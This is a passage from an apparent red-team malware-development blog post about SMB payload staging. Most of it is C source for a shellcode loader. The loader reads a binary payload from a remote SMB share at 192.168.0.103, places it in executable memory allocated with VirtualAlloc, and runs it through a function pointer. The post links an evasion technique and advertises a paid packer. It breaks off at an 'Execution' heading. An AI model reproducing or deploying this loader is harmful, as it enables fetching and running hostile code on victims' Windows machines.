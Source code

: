 In that case, since we already have a handle to a file, the invocation is as simple as specifying the handle, the address of the variable we want the payload to be in, and of course, the size.

```C
BOOL rez = ReadFile(hFile, &buf, 460, NULL, NULL);
```

Then we need to add the execution flow as described in the [Direct Pointer blog](https://lsecqt.github.io/Red-Teaming-Army/malware-development/leveraging-the-direct-pointer---a-stealthy-maneuver-in-evasion-tactics/), and then after combining the pieces we would have something like this:

```C
#include <windows.h>
#include <stdio.h>

unsigned char buf[460] = "";

void readBin(const char* fileName){
	FILE *file;
	DWORD file_length;

	HANDLE hFile = CreateFileA(fileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	if(hFile == NULL)
	{
		printf("Error opening file: %d\n", GetLastError());
		exit(-99);
	}

	BOOL rez = ReadFile(hFile, &buf, 460, NULL, NULL);
	if(rez == FALSE)
	{
		printf("Error reading file: %d\n", GetLastError());
		exit(-98);
	}	
}

int main()
{
	LPVOID pAddr = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	readBin("\\\\192.168.0.103\\share\\test.bin");
	memcpy(pAddr, buf, sizeof(buf));
	((void(*)())pAddr)();
	
}
```

!!!
SMB Staging is already implemented in my ShadowBurn packer. By supporting my work on [Patreon](https://www.patreon.com/Lsecqt), you can get access to it as well as other useful repos.
!!!


## Execution
